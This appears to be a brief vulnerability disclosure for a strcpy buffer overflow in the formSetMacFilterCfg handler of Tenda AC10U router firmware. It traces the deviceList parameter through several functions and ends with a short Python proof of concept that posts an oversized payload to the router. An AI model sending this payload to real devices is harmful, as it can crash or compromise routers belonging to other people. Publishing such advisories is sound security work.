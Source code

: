# buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetMacFilterCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](4.png)

get value from macFilterType , and get into if

![](5.png)

get value from deviceList , pass to set_macfilter_rules

![](6.png)

pass to set_macfilter_rules_by_one

![](7.png)

pass to parse_macfilter_rule

![](8.png)

finally call strcpy ,cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/formSetMacFilterCfg"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceList': payload , 'macFilterType': 1 })
```
